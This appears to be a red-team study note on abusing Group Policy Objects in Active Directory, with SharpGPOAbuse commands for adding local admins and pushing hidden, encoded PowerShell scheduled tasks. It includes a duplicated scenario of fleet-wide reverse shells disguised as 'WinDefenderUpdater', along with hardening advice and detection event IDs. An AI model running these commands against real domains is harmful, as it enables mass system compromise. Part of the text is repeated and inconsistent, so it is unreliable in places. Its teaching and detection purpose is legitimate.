

# 36.18 GPO Abuse

## 1. Introduction & Theory
Group Policy Objects (GPOs) are the primary mechanism used by administrators to manage configurations, enforce security settings, deploy software, and run scripts across an Active Directory environment. A single GPO can affect thousands of computers and users simultaneously.

Because of their immense power and broad scope, GPOs are prime targets for attackers. If an attacker gains control over an existing GPO, or gains the rights to create and link a new GPO, they can execute code, distribute malware, or create administrative backdoors across all machines where the GPO applies. 

### GPO Architecture
A GPO consists of two main components:
1. **Group Policy Container (GPC):** An Active Directory object (located under `CN=Policies,CN=System,DC=domain,DC=local`) that stores the properties, status, and version of the GPO.
2. **Group Policy Template (GPT):** A collection of files stored on the file system in the `SYSVOL` share of the Domain Controllers (`\\domain.local\SYSVOL\domain.local\Policies\{GUID}`). This folder contains the actual settings, scripts, and registry modifications (e.g., `GptTmpl.inf`, `Registry.pol`).

To successfully modify a GPO, an attacker must have write permissions to *both* the GPC in AD and the corresponding GPT folder in SYSVOL.

## 2. ASCII Diagram of Attack Flow



## 3. Attack Mechanics
GPO abuse generally falls into one of two categories:
1. **Editing Existing GPOs:** The attacker modifies a GPO that is already linked to an Organizational Unit (OU). When the machines in that OU refresh their group policy (every 90-120 minutes by default), the malicious payload is executed.
2. **Creating & Linking New GPOs:** The attacker has rights to create GPOs in the domain and link them to specific OUs. This is more complex and noisier but highly effective.

### Common Abuse Payloads
- **Scheduled Tasks:** Creating an immediate scheduled task that executes a PowerShell cradle or binary as `NT AUTHORITY\SYSTEM`.
- **Restricted Groups / Local Admins:** Modifying the GPO to add the attacker's domain account to the local `Administrators` group on all affected machines.
- **User Rights Assignment:** Granting SeDebugPrivilege or SeImpersonatePrivilege to a standard user account.
- **Logon/Logoff Scripts:** Dropping batch files or PowerShell scripts that run when a user authenticates.

### Prerequisites
The attacker must have sufficient permissions over a GPO. In BloodHound, this is represented by edges like `GenericAll`, `GenericWrite`, `WriteDacl`, or `WriteOwner` pointing from the attacker's node to a `GPO` node.

## 4. Execution

The most efficient tool for this attack is **SharpGPOAbuse**, an automated C# tool that safely updates the GPT files and increments the GPC version numbers so that clients pull the new policy.

### Scenario A: Adding a Local Administrator
Assume BloodHound shows we have `GenericAll` over a GPO named `Default Workstation Policy` (GUID: `{31B2F340-016D-11D2-945F-00C04FB984F9}`).
```bash
# Using SharpGPOAbuse to add 'attacker' to local admins
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount attacker --GPOName "Default Workstation Policy"
```
Once executed, the tool creates or modifies the `GptTmpl.inf` file in SYSVOL to enforce the new Restricted Group. All machines processing this GPO will add `attacker` to their local `Administrators` group upon the next GP refresh.

### Scenario B: Executing Code via Scheduled Task
To get a reverse shell or execute an arbitrary command as SYSTEM across the fleet:
```bash
SharpGPOAbuse.exe --AddComputerTask --TaskName "Updates" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c powershell.exe -w hidden -enc JABz...<base64>" --GPOName "Default Workstation Policy"
```
This payload drops an XML file into `\SYSVOL\domain.local\Policies\{GUID}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml`. When clients read this file, they instantly register and execute the task as SYSTEM.

### Scenario C: Forcing a GPUpdate
By default, you must wait up to 120 minutes for computers to pull the changes. However, if you already have local admin on a specific box and want to trigger the GPO immediately:
```cmd
gpupdate /force
```

### Reverting the GPO
GPO abuse is highly destructive if not cleaned up. SharpGPOAbuse creates backups of the original files. It is crucial to restore the original state after achieving the objective (e.g., dumping hashes from a target) to prevent continuously re-exploiting the fleet.

## 5. Defense & Hardening
- **Strict Delegation:** Limit who can create, edit, and link GPOs. By default, Domain Admins and Enterprise Admins have full control, but Group Policy Creator Owners can also create them. Use strict RBAC.
- **Tiered Administration:** Ensure that GPOs applying to Tier 0 (Domain Controllers) can only be edited by Tier 0 accounts. If a Tier 1 (Server Admin) account can edit a GPO that applies to Tier 0, the environment is fundamentally broken.
- **SYSVOL Permissions:** Ensure that standard users only have `Read` access to the SYSVOL share. Any deviation from the default strict permissions can lead to GPT tampering.

## 6. Detection Strategies
Monitoring GPO modifications is critical for SOC teams.
- **Event ID 5136:** A directory service object was modified. If auditing is enabled, this will trigger when the `versionNumber` attribute of the GPC is updated in AD.
- **Event ID 5145:** A network share object was checked to see whether client can be granted desired access. Monitor for `WriteData` or `AppendData` access to the `\\domain\SYSVOL\domain\Policies` path. SharpGPOAbuse requires writing to the GPT files, which triggers this event.
- **PowerShell Transcription Logs:** If the attacker uses native PowerShell modules (`Set-GPPermission` or `New-GPO`), the commands will be captured in transcription logs.
- **Unplanned GPO Creation:** Monitor for **Event ID 5137** (A directory service object was created) specifically targeting the `CN=Policies` container.

## Real-World Attack Scenario

During a red team engagement, an attacker compromised the workstation of an IT administrator via a phishing payload. The workstation was heavily monitored, and executing standard post-exploitation frameworks directly would instantly trigger an EDR alert. The goal was to deploy a malicious Scheduled Task across the entire workstation fleet using Group Policy.

**The Context**
Using BloodHound, the attacker identified that the compromised IT administrator account was a member of the `Helpdesk_Tier2` group. This group had been improperly granted `GenericAll` (Full Control) rights over a crucial Group Policy Object named `Baseline_Workstations_Sec`, which was linked to the root of the `Workstations` OU.

**The Execution**
1.  **Preparation:** The attacker compiled `SharpGPOAbuse` using a custom C# loader to bypass local AV signatures. They crafted a malicious PowerShell one-liner that would execute a reverse shell connecting back to their C2 server.
2.  **The Injection:** Using `SharpGPOAbuse`, the attacker targeted the `Baseline_Workstations_Sec` GPO. They instructed the tool to create an immediate Scheduled Task that runs as `NT AUTHORITY\SYSTEM`.
    `SharpGPOAbuse.exe --AddComputerTask --TaskName "WinDefenderUpdater" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -enc JABz..." --GPOName "Baseline_Workstations_Sec"`
3.  **The Propagation:** `SharpGPOAbuse` successfully updated the `GptTmpl.inf` file within the `SYSVOL` share and incremented the GPC version number in Active Directory.
4.  **The Outcome:** Over the next 90 to 120 minutes, as workstations across the enterprise performed their standard background Group Policy refresh (`gpupdate`), they downloaded the modified GPO. Each workstation instantly registered and executed the malicious "WinDefenderUpdater" task, providing the red team with `SYSTEM` level access across the fleet.

## 7. Chaining Opportunities
- **[[17 - ACL Abuse]]:** The prerequisite for GPO abuse is having the correct ACLs over the GPO object.
- **Lateral Movement:** GPO abuse is the ultimate lateral movement technique, allowing 1-to-N compromise simultaneously.
- **[[23 - Active Directory Persistence]]:** Malicious GPOs can be configured to continuously re-add rogue accounts or reinstall backdoors every 90 minutes, making eviction incredibly difficult.

## 8. Related Notes
- [[22 - Active Directory Enumeration]]
- [[25 - Post-Exploitation Tradecraft]]
- [[07 - Windows Local Privilege Escalation]]

## Real-World Attack Scenario
## 10. Real-World Attack Scenario

During a red team engagement, an attacker compromised the workstation of an IT administrator via a phishing payload. The workstation was heavily monitored, and executing `mimikatz.exe` directly would instantly trigger an EDR alert. The goal was to deploy a malicious Scheduled Task across the entire workstation fleet using Group Policy.

**The Context**
Using BloodHound, the attacker identified that the compromised IT administrator account (`jsmith`) was a member of the `Helpdesk_Tier2` group. This group had been improperly granted `GenericAll` (Full Control) rights over a crucial Group Policy Object named `Baseline_Workstations_Sec`, which was linked to the root of the `Workstations` OU.

**The Execution**
1.  **Preparation:** The attacker compiled `SharpGPOAbuse` using a custom C# loader to bypass local AV signatures. They crafted a malicious PowerShell one-liner that would execute a reverse shell connecting back to their C2 server.
2.  **The Injection:** Using `SharpGPOAbuse`, the attacker targeted the `Baseline_Workstations_Sec` GPO. They instructed the tool to create an immediate Scheduled Task that runs as `NT AUTHORITY\SYSTEM`:
    ```cmd
    SharpGPOAbuse.exe --AddComputerTask --TaskName "WinDefenderUpdater" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -enc JABz..." --GPOName "Baseline_Workstations_Sec"
    ```
3.  **The Propagation:** `SharpGPOAbuse` successfully updated the `GptTmpl.inf` file within the `SYSVOL` share and incremented the GPC version number in Active Directory.
4.  **The Outcome:** Over the next 90 to 120 minutes, as thousands of workstations across the enterprise performed their standard background Group Policy refresh (`gpupdate`), they downloaded the modified GPO. Each workstation instantly registered and executed the malicious "WinDefenderUpdater" task, providing the red team with thousands of `SYSTEM` level reverse shells without ever deploying a traditional exploit.

